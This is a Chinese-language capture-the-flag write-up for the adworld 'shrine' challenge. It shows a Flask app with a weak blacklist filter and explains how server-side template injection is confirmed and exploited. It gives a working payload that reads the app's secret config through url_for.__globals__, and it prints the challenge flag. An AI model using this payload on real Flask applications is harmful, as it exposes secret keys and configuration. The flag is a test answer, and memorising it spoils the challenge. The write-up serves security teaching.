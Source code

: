 # shrine

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=100497b9-0ff5-4427-8159-060062da0c4c_2)

场景打开只看见了一段flask源代码，而flask的考点也很明确了——[模板注入](https://www.freebuf.com/column/187845.html)。先把这串源代码美化一下，使用这个[网站](https://codebeautify.org/python-formatter-beautifier)。

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

- ### os.environ
  > 一个表示字符串环境的 映射 对象。（比如字典） 例如，environ\['HOME'] 是你的主目录（在某些平台上）的路径名

pop()大概就是返回当前路径下FLAG文件的值。app.config\['FLAG']的值就等于FLAG。app.config是当前的项目配置。

所以我们要想办法看到app.config\[FLAG]里面的值。往下看可以发现有个shrine目录。@app.route()是一个装饰器，这里先将其简单理解成设置路径。按照这里的设置，应该还有个/shrine/xxx路径才对。

- http://61.147.171.105:60143/shrine/ds

发现shrine后面跟着的ds被回显了，试一下有没有模版注入。

- http://61.147.171.105:60143/shrine/{{2*2}}

回显显示4，敲定模版注入。现在就是利用了。但是从 return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 可以发现不能直接传入config。

- ### Flask
  > {{}}表示变量，{{% %}}是jinja引擎特有语法（flask使用的是jinja引擎）。上面的代码意为“遍历blacklist中的词语，如果输入等于黑名单中的词语就将其设定为None。

通过replace还发现圆括号也被过滤了。但是blacklist并没有过滤完全，只是规定了输入不能等于config，没说不能包含config。我从[这里](https://10-0-0-55.github.io/web/flask/ssti/)找到了一个完全可行的payload。

- http://61.147.171.105:60143/shrine/{{url_for.__globals__['current_app'].config["FLAG"]}}
  
直接打印出config中FLAG的内容。

## Flag
> flag{shrine_is_good_ssti}
